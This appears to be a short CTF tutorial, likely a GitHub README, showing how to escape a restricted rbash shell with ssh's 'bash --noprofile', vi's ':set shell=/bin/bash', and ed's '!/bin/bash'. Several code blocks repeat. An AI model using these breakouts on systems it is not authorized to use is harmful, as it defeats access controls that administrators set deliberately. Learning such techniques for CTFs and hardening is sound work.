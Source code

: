 Our First Method is Escaping the rbash shell through ssh many ctf playing times we have ssh username and password but our shell is restricted with rbash. we can easily bypass this rbash shell using extra argument bash noprofile
```bash
ssh hacknos@172.20.10.2
echo $SHELL
cd ../
ssh hacknos@172.20.10.2
echo $SHELL
cd ../
```
we can bypass the rbash shell using the no-profile extra parameter
```bash
ssh hackNos@<IP-Adress> -t "bash --noprofile"
cd ../
ssh hackNos@<IP-Adress> -t "bash --noprofile"
cd ../
```


First, we open the vi editor then we used: set option and we create a shell name variable and in this variable, we set our bash environment location. run the command one by one


run the vi command and our vi editor is open using the set mode we can bypass the restricted rbash shell
```bash
vi
:set shell=/bin/bash
:shell
vi
:set shell=/bin/bash
:shell
```

escaping rbash – ed editor
ed is another Linux editor simple we can run ed edit mode without selecting any file then we type bash path
```bash
cd /home
echo $SHELL
ed
!'/bin/bash'
pwd
```